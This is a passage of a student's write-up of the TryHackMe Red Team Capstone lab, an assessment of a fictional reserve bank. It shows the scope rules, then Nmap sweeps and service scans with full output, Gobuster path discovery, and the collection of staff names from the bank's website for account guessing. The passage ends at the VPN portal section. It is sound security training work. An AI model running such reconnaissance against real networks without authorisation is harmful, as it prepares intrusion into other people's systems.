



<!-- PDF page 1 -->
<section id="pdf-page-1" class="pdf-source-section" data-pdf-page="1" aria-label="Source page 1">

<h2 id="welcome-to-trimento">Welcome to Trimento!</h2>

Trimento is the fictional setting for the <a href="https://tryhackme.com/room/redteamcapstonechallenge">TryHackMe Red Team Capstone Challenge</a>. Its government has asked a security consultancy to assess TheReserve, a simulated reserve bank.

The engagement covers two divisions: <strong>Corporate</strong>, which manages foreign investments and corporate clients, and <strong>Bank</strong>, which operates the core banking environment.

The central question is whether weaknesses in the corporate environment could provide a route into the banking environment.

My approach was to enumerate the exposed hosts, obtain corporate access, and investigate the relationships between the Windows domains.

The final objective concerned the lab's simulated SWIFT application. In the real world, <a href="https://www.swift.com/about-us/who-we-are">Swift carries financial messages and payment instructions</a>; the participating institutions move the funds.

I worked through this lab in August 2026 as part of an assessment for my Certificate IV in Cyber Security. This write-up documents the practical work I carried out for that assessment, using the addresses and tool versions shown in the screenshots.

<h3 id="outcome">Outcome</h3>

I collected 16 flags, working from the exposed services into the corporate network, then on to the root and BANK domains.

I reached flag 16 before the lab reset, leaving the SWIFT stage unfinished. There was also an issue with Domain Admin privileges, which I outline later in this write-up.

<h2 id="in-scope">In-Scope</h2>

<ul><li>Testing TheReserve hosts within the assigned lab range, subject to the exclusions below.</li></ul>
</section>

<!-- PDF page 2 -->
<section id="pdf-page-2" class="pdf-source-section" data-pdf-page="2" aria-label="Source page 2">
<ul><li>Reconnaissance of TheReserve's website inside the supplied subnet; no external internet OSINT was part of the engagement.</li><li>Phishing of any of the employees of TheReserve.</li><li>Attacking the mailboxes of TheReserve employees on the WebMail host (.11).</li><li>Working towards the simulated transfer objective within the stated scope and exclusions.</li></ul>

<h2 id="out-of-scope">Out-of-Scope</h2>

<ul><li>Security testing of any sites not hosted on the network.</li><li>Security testing of the TryHackMe VPN (.250) and scoring servers, or attempts to attack any other user connected to the network.</li><li>Any security testing on the WebMail server (.11) that alters the mail server configuration or its underlying infrastructure.</li><li>Attacking the mailboxes of other red teamers on the WebMail portal (.11).</li><li>External (internet) OSINT gathering.</li><li>Testing hosts outside the subnet assigned by the room. For this attempt that range was 10.200.40.0/24.</li><li>Conducting denial-of-service attacks or any attack that renders the network inoperable for other users.</li></ul>

<h2 id="registration">Registration:</h2>

I registered through the lab's e-Citizen portal, which provided the engagement contact channel and flag-submission workflow.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-02-figure-01.png"></a></figure>

Lab username: <code>n0debranch</code> Assigned target range: <code>10.200.40.0/24</code> I used the email account issued by the e-Citizen portal for engagement communication and flag submissions.

</section>

<!-- PDF page 3 -->
<section id="pdf-page-3" class="pdf-source-section" data-pdf-page="3" aria-label="Source page 3">

The supplied archive included tools, a base password list, and the company password policy. The brief narrowed the special characters to <code>!@#$%^</code>, making it possible to generate a bounded set of candidates for this lab.

<figure style="width: 65.63%"><a href="/assets/img/posts/red-team-capstone/page-03-figure-01.png"></a></figure>

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-03-figure-02.png"></a></figure>

With the scope and supplied resources established, I began enumeration.

</section>

<!-- PDF page 4 -->
<section id="pdf-page-4" class="pdf-source-section" data-pdf-page="4" aria-label="Source page 4">
<figure style="width: 100.00%"></figure>

<h2 id="starting-layout">Starting Layout:</h2>

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-04-figure-02.png"></a></figure>

I started by mapping the exposed hosts and their services.

I initially scanned the whole assigned /24, which also included the excluded VPN address. I should have excluded that address from discovery. My subsequent service scan targeted only .11, .12, and .13.

<code>-sn</code> performs host discovery without a port scan. See the <a href="https://nmap.org/book/man-host-discovery.html">Nmap host-discovery documentation</a>.

</section>

<!-- PDF page 5 -->
<section id="pdf-page-5" class="pdf-source-section" data-pdf-page="5" aria-label="Source page 5">

Green / bold: addresses, hosts, and open services. Red / underlined: security findings, privileged operations, or excluded infrastructure.

<pre><code>┌──(n0debranch㉿n0debranch)-[~]
└─$ nmap -sn 10.200.40.0/24
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-09 13:04 +1000
Nmap scan report for 10.200.40.1
Host is up (0.28s latency).
Nmap scan report for 10.200.40.11
Host is up (0.39s latency).
Nmap scan report for 10.200.40.12
Host is up (0.34s latency).
Nmap scan report for 10.200.40.13
Host is up (0.18s latency).
Nmap scan report for 10.200.40.250
Host is up (0.28s latency).
Nmap done: 256 IP addresses (5 hosts up) scanned in 20.84 seconds</code></pre>

The sweep also returned .1 and .250. I left .1 alone because I was unsure of its role. The brief identified .250 as excluded TryHackMe VPN infrastructure, so I did not include either address in the service scan below.

<code>-sC</code> runs Nmap's default NSE scripts; <code>-sV</code> probes for service versions.

<pre><code>┌──(n0debranch㉿n0debranch)-[~]
└─$ nmap -sC -sV 10.200.40.11 10.200.40.12 10.200.40.13
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-09 13:54 +1000
Nmap scan report for 10.200.40.11
Host is up (0.32s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 f3:6c:52:d2:7f:e9:0e:1c:c1:c7:ac:96:2c:d1:ec:2d (RSA)
|   256 c2:56:3c:ed:c4:b0:69:a8:e7:ad:3c:31:05:05:e9:85 (ECDSA)
|_  256 d3:e5:f0:73:75:d5:20:d9:c0:bb:41:99:e7:af:a0:00 (ED25519)
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
110/tcp  open  pop3          hMailServer pop3d
|_pop3-capabilities: TOP USER UIDL
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn</code></pre>
</section>

<!-- PDF page 6 -->
<section id="pdf-page-6" class="pdf-source-section" data-pdf-page="6" aria-label="Source page 6">
<pre><code>143/tcp  open  imap          hMailServer imapd
|_imap-capabilities: IMAP4 CHILDREN NAMESPACE IDLE completed CAPABILITY OK
RIGHTS=texkA0001 SORT ACL QUOTA IMAP4rev1
445/tcp  open  microsoft-ds?
587/tcp  open  smtp          hMailServer smtpd
| smtp-commands: MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
3306/tcp open  mysql         MySQL 8.0.31
| ssl-cert: Subject:
commonName=MySQL_Server_8.0.31_Auto_Generated_Server_Certificate
| Not valid before: 2023-01-10T07:46:11
|_Not valid after:  2033-01-07T07:46:11
| mysql-info:
|   Protocol: 10
|   Version: 8.0.31
|   Thread ID: 21
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolNew, LongPassword, Support41Auth,
InteractiveClient, SupportsLoadDataLocal, DontAllowDatabaseTableColumn,
SupportsTransactions, IgnoreSigpipes, SwitchToSSLAfterHandshake,
ConnectWithDatabase, Speaks41ProtocolOld, FoundRows,
IgnoreSpaceBeforeParenthesis, ODBCClient, LongColumnFlag,
SupportsCompression, SupportsMultipleStatments, SupportsAuthPlugins,
SupportsMultipleResults
|   Status: Autocommit
|   Salt: qlYk\x1F8T'sHK?x\x1E1\x19     M77
|_  Auth Plugin Name: caching_sha2_password
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-08-09T03:56:11+00:00; -1s from scanner time.
| rdp-ntlm-info:
|   Target_Name: THERESERVE
|   NetBIOS_Domain_Name: THERESERVE
|   NetBIOS_Computer_Name: MAIL
|   DNS_Domain_Name: thereserve.loc
|   DNS_Computer_Name: MAIL.thereserve.loc
|   DNS_Tree_Name: thereserve.loc
|   Product_Version: 10.0.17763
|_  System_Time: 2026-08-09T03:55:57+00:00
| ssl-cert: Subject: commonName=MAIL.thereserve.loc
| Not valid before: 2026-08-05T07:11:53
|_Not valid after:  2027-02-04T07:11:53
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows</code></pre>
</section>

<!-- PDF page 7 -->
<section id="pdf-page-7" class="pdf-source-section" data-pdf-page="7" aria-label="Source page 7">
<pre><code>Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2026-08-09T03:56:00
|_  start_date: N/A</code></pre>

<pre><code>Nmap scan report for 10.200.40.12
Host is up (0.42s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol
2.0)
| ssh-hostkey:
|   2048 10:d3:bd:2c:ec:db:33:94:59:fe:31:9e:d7:c7:8c:13 (RSA)
|   256 be:71:c7:af:dc:fb:65:4c:f7:63:1f:3a:5f:3a:16:01 (ECDSA)
|_  256 41:98:77:69:3a:69:52:44:c8:02:a2:84:fe:49:f8:2c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: VPN Request Portal
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel</code></pre>

<pre><code>Nmap scan report for 10.200.40.13
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol
2.0)
| ssh-hostkey:
|   2048 4f:c6:ea:a6:b1:ed:2a:1c:53:c0:90:bf:d5:44:db:69 (RSA)
|   256 da:bc:8b:d4:d0:3a:61:a2:5d:33:39:12:e8:be:a0:13 (ECDSA)
|_  256 23:04:b5:fe:77:04:cb:a8:26:39:dc:b3:09:d3:4d:a5 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel</code></pre>

The results gave me three useful starting points: the mail server, VPN request portal, and corporate website.

</section>

<!-- PDF page 8 -->
<section id="pdf-page-8" class="pdf-source-section" data-pdf-page="8" aria-label="Source page 8">
<figure style="width: 36.58%"></figure>

<h2 id="10-200-40-11-mail-server"><strong>10.200.40.11 - Mail Server</strong></h2>

<ul><li>22/tcp — SSH — OpenSSH for Windows 7.7</li><li>25/tcp — SMTP — hMailServer smtpd</li><li>80/tcp — HTTP — Microsoft IIS 10.0</li><li>110/tcp — POP3 — hMailServer pop3d</li><li>135/tcp — MSRPC — Microsoft Windows RPC</li><li>139/tcp — NetBIOS-SSN — Microsoft Windows NetBIOS</li><li>143/tcp — IMAP — hMailServer imapd</li><li>445/tcp — Microsoft-DS — SMB</li><li>587/tcp — SMTP — hMailServer smtpd</li><li>3306/tcp — MySQL — MySQL 8.0.31</li><li>3389/tcp — RDP — Microsoft Terminal Services</li><li>5985/tcp — HTTP — Microsoft HTTPAPI 2.0</li></ul>

Additional information reported by the scan:

<pre><code>Hostname: MAIL</code></pre>

<pre><code>Domain: thereserve.loc</code></pre>

<pre><code>NetBIOS domain: THERESERVE</code></pre>

<pre><code>FQDN: MAIL.thereserve.loc</code></pre>

<pre><code>Windows product version: 10.0.17763</code></pre>

<ul><li>SMB signing: enabled, not required</li></ul>

<h2 id="10-200-40-12-vpn-request-portal"><strong>10.200.40.12 - VPN Request Portal</strong></h2>

<ul><li>22/tcp — SSH — OpenSSH 7.6p1 Ubuntu</li><li>80/tcp — HTTP — Apache 2.4.29</li></ul>
</section>

<!-- PDF page 9 -->
<section id="pdf-page-9" class="pdf-source-section" data-pdf-page="9" aria-label="Source page 9">
<h2 id="web-enumeration">Web Enumeration</h2>
<pre><code>HTTP title: VPN Request Portal</code></pre>

<ul><li>OS: Ubuntu Linux</li></ul>

<h2 id="10-200-40-13-apache-web-server"><strong>10.200.40.13 - Apache Web Server</strong></h2>

<ul><li>22/tcp — SSH — OpenSSH 7.6p1 Ubuntu</li><li>80/tcp — HTTP — Apache 2.4.29</li><li>HTTP title: none</li><li>OS: Ubuntu Linux</li></ul>

I used Gobuster with <code>common.txt</code> to look for web paths on the three exposed hosts.

The scan of .11 returned no useful matches with this wordlist.

On .12, the scan identified <code>/vpn</code>, which I returned to after reviewing the corporate website.

<figure style="width: 94.25%"><a href="/assets/img/posts/red-team-capstone/page-09-figure-01.png"></a></figure>
</section>

<!-- PDF page 10 -->
<section id="pdf-page-10" class="pdf-source-section" data-pdf-page="10" aria-label="Source page 10">

Gobuster results for 10.200.40.13:

<figure style="width: 86.87%"><a href="/assets/img/posts/red-team-capstone/page-10-figure-01.png"></a></figure>

I reviewed .13 first, then returned to the VPN portal.

The host served TheReserve's corporate website.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-10-figure-02.png"></a></figure>
</section>

<!-- PDF page 11 -->
<section id="pdf-page-11" class="pdf-source-section" data-pdf-page="11" aria-label="Source page 11">

The staff page listed names, roles, and photographs, which gave me a starting point for account names.

<figure style="width: 52.51%"><a href="/assets/img/posts/red-team-capstone/page-11-figure-01.png"></a></figure>
</section>

<!-- PDF page 12 -->
<section id="pdf-page-12" class="pdf-source-section" data-pdf-page="12" aria-label="Source page 12">
<figure style="width: 51.47%"></figure>

The image filenames contained first and last names that were not all visible on the page.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-12-figure-02.png"></a></figure>

The parent image directory allowed directory listing, exposing additional filenames.

</section>

<!-- PDF page 13 -->
<section id="pdf-page-13" class="pdf-source-section" data-pdf-page="13" aria-label="Source page 13">
<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-13-figure-01.png"></a></figure>

The site also had a Contact Us page and a simple to-do-list feature.

The contact address was <code>applications@corp.thereserve.loc</code>. This provided a candidate domain for later authentication tests.

</section>

<!-- PDF page 14 -->
<section id="pdf-page-14" class="pdf-source-section" data-pdf-page="14" aria-label="Source page 14">
<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-14-figure-01.png"></a></figure>

I tried the page's inputs but did not find a useful way forward.

The useful results from this host were the staff names and the corporate domain.

I then moved to the VPN request portal on 10.200.40.12.

</section>

<!-- PDF page 15 -->
<section id="pdf-page-15" class="pdf-source-section" data-pdf-page="15" aria-label="Source page 15">
<h2 id="vpn-portal">VPN Portal and Exposed Profiles</h2>
